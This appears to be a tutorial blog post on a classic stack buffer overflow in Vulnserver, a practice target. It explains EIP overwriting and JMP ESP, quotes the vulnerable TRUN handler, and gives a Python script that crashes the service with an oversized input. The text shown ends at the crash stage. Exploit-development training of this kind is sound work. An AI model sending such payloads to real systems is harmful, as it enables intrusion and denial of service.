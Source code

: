 ```yaml
---
layout: single
title: Classic JMP ESP buffer overflow exploitation - remote overflow in Vulnserver
---
```


This post covers the beginning of any exploit developers journey, the classic buffer overflow exploitation. 

This post covers the exploitation of the Vulnererver TRUN command, utilizing a JMP ESP and EIP overwrite to obtain remote code execution on a system.

So what exactly is a buffer overflow vulnerability? A buffer overflow vulnerability is a software programming error that occurs commonly in C, and c++  applications when the software author uses insecure functions.  A buffer overflow vulnerability is where an input function is not validating the amount of user input that is given, which will allow a user to give too much the data that can then overwrite the buffer sized amount that is designated for the input, and start  writing data onto the stack.

The classic exploitation technique for a standard buffer overflow is to fill up the input buffer, and calculate exactly how much data you need to precisely place a JMP instruction within the EIP  memory register. The EIP memory register is responsible for pointing to the next address that is going to be executed, if the attacker can add a JMP instruction into this EIP register, they can have that JMP instruction point to a malicious payload, a malicious shellcode payload.

While auditing the source code for this application, you can see that the TRUN  command takes user input using the insecure strncpy function, this allows for an attacker to abuse the applications buffer overflow vulnerability.

```c
			} else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
				char *TrunBuf = malloc(3000);
				memset(TrunBuf, 0, 3000);
				for (i = 5; i < RecvBufLen; i++) {
					if ((char)RecvBuf[i] == '.') {
						strncpy(TrunBuf, RecvBuf, 3000);			// <------------	
						Function3(TrunBuf);
						break;
					}
				}
```

Start running the vulnserver application, make sure your firewall is configured to allow this local connection. 

![vulnserver 1]()

First a basic nc connection to the victim machine on port 9999 shows that Vulnserver is actively running.

![vulnserver 2]()

Use Immunity debugger and attach the running vulnserver application to it, this will allow you to monitor and fully get a grasp on the application being exploited.

![vulnserver 3]()

With the vulnserver application running on port 9999 on the victim host target, you can use a basic python socket connection in order to send data to this command.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 4000
buffer_exploit = "TRUN /.:/" + payload

expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```
After you send the vulnerable application the buffer of A's, you can observe the application crashing. The overwritten registers show this is being successfully exploited.

![vulnserver 4]()

